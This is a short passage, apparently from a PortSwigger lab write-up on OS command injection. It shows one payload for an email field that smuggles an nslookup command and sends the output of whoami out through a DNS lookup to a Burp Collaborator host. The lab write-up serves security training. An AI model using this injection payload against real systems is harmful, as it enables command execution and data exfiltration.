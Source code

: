 paylaod:

```javascript
email=||nslookup+`whoami`.v1xy0bp4o5uze23z9tjm4o2pzg56tv.burpcollaborator.net+||
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/命令注入/images/C3A6A429791B479B85F439E0D0A3C688clipboard.png)

